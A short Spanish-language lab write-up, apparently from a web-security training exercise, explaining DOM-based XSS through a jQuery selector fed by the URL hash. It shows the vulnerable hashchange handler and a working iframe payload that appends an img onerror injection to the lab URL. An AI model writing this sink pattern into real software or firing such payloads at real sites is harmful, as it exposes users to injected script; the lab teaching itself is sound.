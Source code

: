 En este caso se utiliza la sencia `$()` de jquery para buscar titulos dentro de la web y scrolear hasta llegar al mismo utilizando esta funcion
```js
$(window).on('hashchange', function(){
	var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');
	if (post) post.get(0).scrollIntoView(); });
```

Por lo que podemos redirigir a la victima a una web maliciosa pero el payload debe introducirse de manera posterior a la carga de la web ya que es el momento donde se ejecuta la función y ademas se necesita el # que se usa para hacer dicha busqueda

```js
<iframe src="https://0abf00e7034e739480738030001c0006.web-security-academy.net/#" onload="this.src += '<img src=0 onerror=print()>'"></iframe>
```